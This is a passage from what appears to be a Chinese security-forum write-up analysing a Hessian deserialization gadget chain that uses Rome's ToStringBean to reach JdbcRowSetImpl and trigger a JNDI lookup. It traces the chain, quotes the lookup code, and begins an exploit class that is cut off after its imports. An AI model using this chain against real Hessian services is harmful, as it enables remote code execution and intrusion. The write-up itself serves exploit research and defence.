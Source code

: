 既然Rome可以任意触发getter方法，那必然想到Fastjson中的JdbcRowSetImpl的JNDI

‍

#### 利用链分析

‍

利用链

```java
Hessian#readObject() -&gt; HashMap#put()-&gt; ObjectBean#hashCode() -&gt; ToStringBean#toString(String) -&gt; JdbcRowSetImpl#getDatabaseMetaData()
```

‍

问题出在`JdbcRowSetImpl#getDatabaseMetaData()`​

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-0ad5fcc868e319794dc8e85c6d1b73a6074d6d2c.png)​

‍

调用`this.connect();`​ 方法 跟进一下

‍

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-42bc8fc47bbafbfbb92f0cf69d05771343461a84.png)​

这个的话很明显的一个lookup函数配合JNDI

```java
InitialContext var1 = new InitialContext();
DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
```

‍

另一个函数就是`setDataSourceName`​去设置下我们JNDI查询的地址即可

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-31daa3485fffdae5ede4fbd371c75adb3adb28d4.png)​

‍

他会调用父类的`setDataSourceName`​然后去设置`dataSource`​参数

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-39a88dfedeb49409c2777c18be23c72e725eab3c.png)​

而lookup函数的参数其实就是datasource这个参数

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-c279a05ff57288fb7fede7ed7be3270cb679d30a.png)​

‍

EXP

```java
package Hessian;

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.Serializable;
import java.lang.reflect.Array;
```